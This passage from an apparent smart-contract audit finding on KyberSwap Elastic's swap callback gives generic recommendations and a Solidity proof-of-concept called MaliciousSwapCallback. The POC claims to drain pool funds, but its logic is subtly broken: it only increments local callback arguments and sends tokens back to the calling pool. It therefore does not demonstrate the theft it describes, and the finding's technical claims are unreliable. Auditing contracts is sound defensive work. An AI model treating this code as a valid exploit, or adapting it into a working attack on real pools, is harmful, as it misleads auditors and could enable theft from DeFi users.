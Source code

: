 https://github.com/sherlock-audit/2023-07-kyber-swap/blob/main/ks-elastic-sc/contracts/Pool.sol#L328-L521

## Tool used

Manual Review

## Recommendation

1. Enforce stringent validations post the `ISwapCallback(msg.sender).swapCallback(deltaQty0, deltaQty1, data);` call.
2. Incorporate an additional whitelist mechanism beside of `isWhitelistedNFTManager` as for the `mint` function. This can comprise a roster of vetted, trusted contract addresses permitted to interface with the `swap` function. Periodic audits should be carried out, and a transparent protocol for adding or removing addresses from this whitelist should be established. Moreover, a robust fallback strategy must be in place to handle any eventual whitelist breaches or errors.

## POC

> To illustrate this vulnerability, consider a malicious contract that adheres to the `ISwapCallback` interface and manipulates the state for undue advantage.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "path_to_ISwapCallback_interface/ISwapCallback.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract MaliciousSwapCallback is ISwapCallback {
    IERC20 public token0;
    IERC20 public token1;
    
    constructor(address _token0, address _token1) {
        token0 = IERC20(_token0);
        token1 = IERC20(_token1);
    }

    function swapCallback(int256 deltaQty0, int256 deltaQty1, bytes calldata data) external override {
        // Deceptively inflate the delta values to drain more funds than allowed
        deltaQty0 += 1000;
        deltaQty1 += 1000;

        // Assuming that tokens are transferred to this contract as a part of the callback,
        // let's just manipulate and keep the funds, possibly for redirection or theft.
        if (deltaQty0 > 0) {
            token0.transfer(msg.sender, uint256(deltaQty0)); // This line is just an example. In reality, the attacker might send to another address or use the tokens for another purpose.
        }

        if (deltaQty1 > 0) {
            token1.transfer(msg.sender, uint256(deltaQty1)); // Similarly, this is just an example.
        }
    }

    function token0Balance() external view returns (uint256) {
        return token0.balanceOf(address(this));
    }

    function token1Balance() external view returns (uint256) {
        return token1.balanceOf(address(this));
    }
}
```
